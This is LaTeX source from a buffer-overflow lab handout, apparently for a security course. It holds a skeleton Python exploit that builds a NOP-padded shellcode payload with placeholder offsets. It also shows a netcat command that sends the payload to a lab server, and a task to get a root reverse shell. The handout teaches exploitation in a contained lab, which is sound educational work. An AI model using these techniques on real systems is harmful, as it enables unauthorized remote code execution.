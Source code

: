 \newcommand{\needtochange}{\ding{73} Need to change \ding{73}}


\begin{lstlisting}[language=python, caption={The skeleton exploit code (\texttt{exploit.py})}]
#!/usr/bin/python3
import sys

# You can copy and paste the shellcode from Task 1
shellcode = (
  ""                     # (*@\needtochange@*)
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start =  0               # (*@\needtochange@*)
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and save it somewhere in the payload
ret    = 0xAABBCCDD      # (*@\needtochange@*)
offset = 0               # (*@\needtochange@*)

# Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
\end{lstlisting}


After you finish the above program, run it. This will generate
the contents for \texttt{badfile}. Then feed it to
the vulnerable server. If your exploit is implemented correctly, the 
command you put inside your shellcode will be executed. If your 
command generates some outputs, you should be able to see
them from the container window. Please provide proofs to show that you
can successfully get the vulnerable server to run 
your commands.

\begin{lstlisting}
$./exploit.py   // create the badfile
$ cat badfile | nc 10.9.0.5 9090
\end{lstlisting}
 

\paragraph{Shell Reversa.}
We are not interested in running some pre-determined commands. We 
want to get a root shell on the target server, so we can 
type any command we want. Since we are on a remote machine,
if we simply get the server to run \texttt{/bin/sh}, we won't be able to
control the shell program. Reverse shell is a typical
technique to solve this problem. Section~\ref{sec:guildelines} provides 
detailed instructions on how to run a reverse shell.
Please modify the command string in your shellcode, so you can
get a reverse shell on the target server. 
Please include screenshots and explanation in your lab report.




